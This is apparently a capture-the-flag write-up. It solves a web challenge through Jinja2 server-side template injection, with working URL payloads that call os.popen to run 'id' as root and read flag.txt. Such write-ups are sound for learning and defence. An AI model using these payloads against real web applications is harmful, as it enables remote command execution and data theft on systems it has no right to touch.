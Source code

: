 # Solution

We play around with the url and we see that the webserver is vulnerable to Server Side injection due to a lack of input escaping when using the Jinja2 Template. It is in fact possible to inject server side commands.  

We can sense the mistake by looking at how the template replies to a specific url request.  
If we browse 206.189.121.131:32323/hello , the web server replies with
```
The page 'hello' could not be found
```

The relative path we look for is replied back from the server. We can thus try to see if we can activate some of the Jinja2 langiage features
```
206.189.121.131:32323/{{ 3+4 }}
```
As a response we get
```
The page '7' could not be found
```

We thus have code execution. We can try with something more dangerous. 
```
206.189.121.131:32323/{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
As a response we get The page 'uid=0(root) gid=0(root) groups=0(root) ' could not be found' as expected.

We can now look for the flag and print it
```
206.189.121.131:32323/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

